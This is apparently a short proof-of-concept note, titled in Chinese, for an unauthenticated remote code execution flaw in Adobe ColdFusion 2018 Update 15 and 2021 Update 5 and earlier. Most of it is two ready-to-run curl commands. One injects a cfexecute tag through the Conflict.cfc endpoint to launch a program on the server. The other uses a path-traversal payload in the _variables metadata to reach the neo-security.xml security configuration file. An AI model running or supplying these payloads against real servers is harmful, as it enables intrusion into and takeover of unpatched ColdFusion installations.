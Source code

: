 未经身份验证的远程代码执行
# description

  Adobe ColdFusion versions 2018 Update 15 (and earlier) and 2021 Update 5 (and earlier) are affected by an Improper Access Control vulnerability that could result in arbitrary code execution in the context of the current user.

# version

<= 2018 Update 15

<= 2021 Update 5

# poc
```
 curl  -k -X POST ‘http://127.0.0.1:8500/CFIDE/AIR/Conflict.cfc?method=test&_cfclient=true’ -d _variables=<cfexecute name=’/usr/bin/gnome-calculator’></cfexecute>
```

```
curl -v -k http://127.0.0.1:8500/testing.cfc?method=foo^&_cfclient=true^&returnFormat=wddx -X POST -H "Content-Type: application/x-www-form-urlencoded" --data "_variables={\"_metadata\":{\"classname\":\"\\..\\lib\\neo-security.xml\",\"_variables\":[]}}"
```
